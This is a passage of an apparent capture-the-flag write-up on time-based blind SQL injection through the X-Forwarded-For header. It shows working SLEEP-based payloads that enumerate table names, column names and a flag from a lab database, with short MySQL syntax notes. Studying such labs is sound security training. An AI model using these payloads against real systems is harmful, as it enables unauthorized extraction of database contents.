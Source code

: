 Payload - X-Forwarded-For: 1';select if((substring((select table_name from information_schema.tables where table_schema='sqhell_1' limit 0,1),1,1)='f'),sleep(10),3204)#

<h3>MySQL Syntax Explanation</h3>

IF(condition, value_if_true, value_if_false)

LIMIT 0,1 - skip 0 rows, return 1 row

SUBSTRING(string_expression, start_position, length)

Analyze image below

<img width="1902" height="658" alt="time-based-find-table-name-using-substring" src="https://github.com/user-attachments/assets/ebf4aaaf-5fd3-44a3-b9c2-a7fbbee8e220" />

<h2>Finding Length() of table_name</h2>

Payload - X-Forwarded-For: 1';select if((length((select table_name from information_schema.tables where table_schema='sqhell_1' limit 0,1))=4),sleep(10),3204)#

Analyze image below

<img width="1910" height="659" alt="time-based-true-condition-find-length-of-table_name" src="https://github.com/user-attachments/assets/fad1b692-e43b-4111-af4a-a0edfe518d23" />

<h2>Finding a column_name using SUBSTRING() or MID()</h2>

We can use SUBSTRING() or MID() to find a column_name the same way we used them to find a table_name.

Payload MID() - X-Forwarded-For: 1';select if((mid((select column_name from information_schema.columns where table_schema='sqhell_1' and table_name='flag' limit 1,1),1,1)='f'),sleep(10),3204)#

Payload SUBSTRING() - X-Forwarded-For: 1';select if((substring((select column_name from information_schema.columns where table_schema='sqhell_1' and table_name='flag' limit 1,1),1,1)='f'),sleep(10),3204)#

Analyze images below

<img width="1911" height="658" alt="time-based-find-column-name-using-substring" src="https://github.com/user-attachments/assets/0145a7f9-9fba-44b5-928b-a69eade0a926" />

<img width="1909" height="656" alt="time-based-find-column-name-using-mid" src="https://github.com/user-attachments/assets/4f10e0de-fc59-48fe-96b1-e921f37b09b7" />

<h2>Enumerate contents of column_name from table_name</h2>

Now that we have a valid column_name from a valid table_name, we can enumerate the contents of the column

<mark>Using MID()</mark>

Payload - X-Forwarded-For: 1';select if(mid((select flag from flag),1,1)='T',sleep(10),69420)#

Analyze image below

<img width="1902" height="657" alt="time-based-enumerate-column-from-table-using-mid" src="https://github.com/user-attachments/assets/387d4b9b-0ffc-414d-a448-94099d65c5ee" />

<mark>Using SUBSTRING()</mark>

Payload - X-Forwarded-For: 1';select if(substring((select flag from flag),1,1)='T',sleep(10),69420)#

Analyze image below

<img width="1912" height="664" alt="time-based-enumerate-column-from-table-using-substring" src="https://github.com/user-attachments/assets/6cb543dc-e568-4d7c-9ab2-b8a7cedf7637" />

<h1><mark>TO BE CONTINUED</mark></h1>
